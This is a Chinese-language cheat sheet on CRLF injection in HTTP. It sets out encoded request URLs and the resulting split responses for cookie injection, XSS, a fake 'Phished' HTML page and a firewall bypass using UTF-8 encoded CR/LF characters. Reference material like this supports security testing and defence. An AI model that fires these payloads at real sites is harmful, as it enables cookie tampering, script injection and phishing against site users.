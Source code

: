 # CRLF

CRLF指回车(ASCII 13, \r)和换行(ASCII 10, \n)。 它们被用于记录行的终止，在当今流行的操作系统中处理方式不同。例如：在windows中，一行的结尾需要一个cr和lf，而在linux/unix中只需要一个lf。在http协议中，cr-lf序列总是用来终止一行。

当用户设法将crlf提交到应用程序中时，会发生crlf注入攻击。这通常是通过修改http参数或url来完成的。

## 目录

- [ 修改服务端响应包(cookie)](#修改服务端响应包-cookie)
- [修改服务端响应包(xss绕过)](#修改服务端响应包-xss绕过)
- [修改服务端响应包(HTML注入)](#修改服务端响应包-HTML注入)
- [绕过防火墙](#绕过防火墙)
- [参考](#参考)


## 修改服务端响应包-cookie

请求

```
http://www.example.net/%0D%0ASet-Cookie:mycookie=myvalue
```

HTTP 响应

```·
Connection: keep-alive
Content-Length: 178
Content-Type: text/html
Date: Mon, 09 May 2016 14:47:29 GMT
Location: https://www.example.net/[INJECTION STARTS HERE]
Set-Cookie: mycookie=myvalue
X-Frame-Options: SAMEORIGIN
X-Sucuri-ID: 15016
x-content-type-options: nosniff
x-xss-protection: 1; mode=block
```

## 修改服务端响应包-xss绕过

请求

```
http://example.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e
```

HTTP 响应

```
HTTP/1.1 200 OK
Date: Tue, 20 Dec 2016 14:34:03 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 22907
Connection: close
X-Frame-Options: SAMEORIGIN
Last-Modified: Tue, 20 Dec 2016 11:50:50 GMT
ETag: "842fe-597b-54415a5c97a80"
Vary: Accept-Encoding
X-UA-Compatible: IE=edge
Server: NetDNA-cache/2.2
Link: <https://example.com/[INJECTION STARTS HERE]
Content-Length:35
X-XSS-Protection:0

23
<svg onload=alert(document.domain)>
0
```

## 修改服务端响应包-HTML注入

请求

```
http://www.example.net/index.php?lang=en%0D%0AContent-Length%3A%200%0A%20%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Chtml%3EYou%20have%20been%20Phished%3C/html%3E
```

HTTP 响应

```
Set-Cookie:en
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Mon, 27 Oct 2060 14:50:18 GMT
Content-Length: 34

<html>You have been Phished</html>
```

## 绕过防火墙

使用 UTF-8 编码

```
%E5%98%8A%E5%98%8Dcontent-type:text/html%E5%98%8A%E5%98%8Dlocation:%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%BCsvg/onload=alert%28innerHTML%28%29%E5%98%BE
```

Remainder:

* %E5%98%8A = %0A = \u560a
* %E5%98%8D = %0D = \u560d
* %E5%98%BE = %3E = \u563e (>)
* %E5%98%BC = %3C = \u563c (<)

## 参考

* https://www.owasp.org/index.php/CRLF_Injection
* https://vulners.com/hackerone/H1:192749
